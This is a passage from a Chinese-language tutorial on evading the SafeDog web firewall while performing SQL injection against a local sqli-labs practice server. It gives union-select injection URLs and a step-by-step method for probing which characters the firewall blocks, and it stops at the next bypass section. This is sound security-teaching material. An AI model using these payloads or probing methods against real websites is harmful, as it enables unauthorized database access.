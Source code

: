 测试链接

> http://192.168.186.129/sqli-labs/Less-1/

可以看到拦截页面

![可以看到拦截页面](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%8B%A6%E6%88%AA%E9%A1%B5%E9%9D%A2.png)

### 1.1 旧版本的安全狗绕过

### 1.1.1 判断拦截字符

HackBar 注入

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

逐个删除提交的字符，直到不拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

在 union 和 select 之间加任意字符，查看是否拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union !@# select
```

> 发现提交 # 时不拦截，但是 # 将 select 注释掉了，因此只提交 union 是不拦截的

综合以上判断，拦截条件为 union 和 select 同时存在

### 1.1.2 条件注释绕过
